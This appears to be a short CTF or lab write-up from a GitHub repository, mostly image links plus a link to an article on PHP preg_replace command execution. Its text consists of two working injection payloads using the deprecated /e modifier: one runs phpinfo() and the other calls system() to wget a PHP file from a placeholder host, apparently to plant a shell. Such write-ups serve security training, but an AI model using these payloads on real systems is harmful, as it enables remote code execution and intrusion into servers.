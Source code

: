 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2361431a-bf37-44b2-806a-b76500028462)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9abfe5ff-af2e-4673-a9a1-4e31626755ba)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3c63736c-a880-4232-9dfd-ed420b507e97)

https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/019d9fe1-3ab4-47b8-a34b-21e260c328b7)

`pattern=/a/e&replace=phpinfo();&paragraph=4`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4284093c-88d1-4a76-9082-4bdc1b38b788)

`pattern=/a/e&replace=system('wget http://ip:1234/test1.php');&paragraph=4`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/db5f7de7-99bd-4d02-bb84-28a8f577839e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ecfee481-71ea-45ba-8aa7-f4f88683a09f)




